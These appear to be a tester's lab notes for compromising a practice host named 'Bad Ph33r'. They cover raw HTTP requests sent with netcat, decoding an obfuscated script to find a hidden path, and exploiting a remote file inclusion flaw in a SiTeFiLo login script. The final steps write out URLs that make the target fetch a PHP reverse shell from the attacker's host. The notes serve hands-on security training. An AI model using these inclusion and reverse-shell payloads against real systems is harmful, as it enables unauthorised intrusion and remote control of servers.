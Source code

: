 Attack Vector 14 - Bad Ph33r

Attack Vector 14 - Bad Ph33r

Explore more netcat... we get a bad request if we just do like this:
![a14da1f09b29d25e93561c1ecfd68574.png](../../../_resources/23781db6c8cb4d84a6d77c761e06bcec.png)

But we get the source code if if use User-Agent curl:
`printf "GET / HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`
![fd6d3293779ac40e49a76cb7102e34f2.png](../../../_resources/419ad0dedf89403ab379d77fc0b3bb95.png)

A bunch of pages redirect to test.asp. There is referene to a hidd3n-script...
![1b2147729316d451b6c99d3109b3782d.png](../../../_resources/c1620c2d83cb49ffa480b87caeaefcfa.png)

Aha! The hidd3n-script
`printf "GET /hidd3n-script HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`
![a912fe5f9ef5835c3221fcd1eac28f00.png](../../../_resources/27bbbda44b434824bd5bae9d9238fcbb.png)

Decode the script! Used HexDecoder website. `http://ddecode.com/hexdecoder/?results=b9248126e067728365cc4725f8235294`
![a88064a784fd42b5da80b45ac13b74da.png](../../../_resources/ad7701128d924bdbae9b13963f833eec.png)


var _0x5490=["length"," ","offsecphun1.gif","offsecphun2.png","getSeconds","floor","<img src='","'>","write","offsecphun5.bmp","d6467e109c1606ed29","-","1f2e73705207bd","21213/"];var sillydate=0;var sillyvar=0;function StringArray(_0x5b7ex4) {this[_0x5490[0]]=_0x5b7ex4;for (var _0x5b7ex5=1;_0x5b7ex5 <= _0x5b7ex4;_0x5b7ex5++) {this[_0x5b7ex5]=_0x5490[1];};};image=new StringArray(10);image[0]=_0x5490[2];image[1]=_0x5490[3];image[2]=_0x5490[2];image[3]=_0x5490[3];image[4]=_0x5490[2];image[5]=_0x5490[3];image[6]=_0x5490[2];image[7]=_0x5490[3];image[8]=_0x5490[3];image[9]=_0x5490[3];var ran=60/image[_0x5490[0]];function _0x5491() {sillydate=new Date();sillyvar=sillydate[_0x5490[4]]();sillyvar=Math[_0x5490[5]](sillyvar/ran);return (image[sillyvar]);};function _0x5499(_0x4499) {var hmmmm=document.createElement("img");hmmmm.src="/"+_0x4499;document.body.appendChild(hmmmm);}//_0x5499(_0x5490[12]+_0x5490[10]+_0x5490[11]+_0x5490[13]+_0x5491());


What is this? An open UDP port 8696... error in pasting??
![f9b8ebb326b386d04606d7a6d4cac8a7.png](../../../_resources/8f96da53c4a947428562298d8dae1aea.png)

[Javascript code deobfuscator](http://codeamaze.com/code-beautifier/javascript-deobfuscator)
![d6e67eb25f79299d3fd1b9c0efe99b11.png](../../../_resources/83f4cd9f129d42d491c4f13078feccc9.png)
Here is the deobfuscated script **Problem! Using this strips the first array, so essetially this is unusable**
[unhidd3n-script.js](../../../_resources/dd4764d2de694d048e2e6c317bef54aa.js)


Manually, I replaced all the hex strings using this site [Hex to Ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

This link was helpful
[How to build software](https://www.howtobuildsoftware.com/index.php/how-do/bWBX/%E2%80%9C)

The hidd3n-script after I converted the hex manually:
[hidd3n-script](../../../_resources/f742aed1181445238b313979ce4490de.133hidd3)
![c7432d6b3f4142dfeea947f437f0e7f2.png](../../../_resources/3f1c6917f0c54c3fb2d1503b56960bc6.png)

Tried inputting the offsecphun5.bmp
this got redirected to
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg`
![baf5ab1461fbe4a1a2f32378f6618ec8.png](../../../_resources/cea7dbd479054f8082b4ee31d1b33a83.png)

But the directory shows a login page:
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/`
![ec6828a95c3a2c6f5e90eb54d17e4ac0.png](../../../_resources/a1b92b3eef8346c58091cab6e10ee6a6.png)

The source code for 
`view-source:http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/index.asp`
![0949b25419cfcf3b6614874bd3df4417.png](../../../_resources/d8239642f1d146a2aee491efb033c059.png)

# Search for slogin_POST_username and slogin_POST_password
## Google search for slogin_post_username:
[Simple Text-File Login script (SiTeFiLo) 1.0.6 - File Disclosure / Remote File Inclusion](https://www.exploit-db.com/exploits/7444)

## Searchsploit had nothing for slogin
`searchsploit slogin`
![c44b430e89c35bca07cf779e60e3713d.png](../../../_resources/3e16d497144245f1aeeb4f64dfacd887.png)

`searcshploit sitefilo`
![80a9969f1336663627df41825dceb106.png](../../../_resources/7f161af95326474485dab2139fae9ed2.png)

### Does the file exist? I think so...
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php`
![6a03fb779025f7ea4143ff18bbfe3d75.png](../../../_resources/216d1d19e9624d5f8568a5fffb02f85b.png)

### The RFI exploit should be like this:
[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]

The slog_users.txt is there!
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slog_users.txt`
![3b8c9d60c01287d3859081c99a3f1b5e.png](../../../_resources/3ffd3379c8a74322ac93300240b338bd.png)

Tried a jsp reverse shell... didn't quite work.
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/jsp-reverse.jsp?`
![3a7c3b93808a5ee619abd24e63cb4121.png](../../../_resources/9771fc9d775d419f9b9120786c4e5915.png)

Looking at the above output... perhaps php is better. Using the reverse shell from /usr/share/wordlist
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?`

![bc6190236deda6266c4beceac888daec.png](../../../_resources/6aa045518edb451b9eddf9a6bfeefc2f.png)

The listener
![6565b87e4699988db53ce2f718c5e4bf.png](../../../_resources/60a726c863c94e22b9987ead5f9754c7.png)


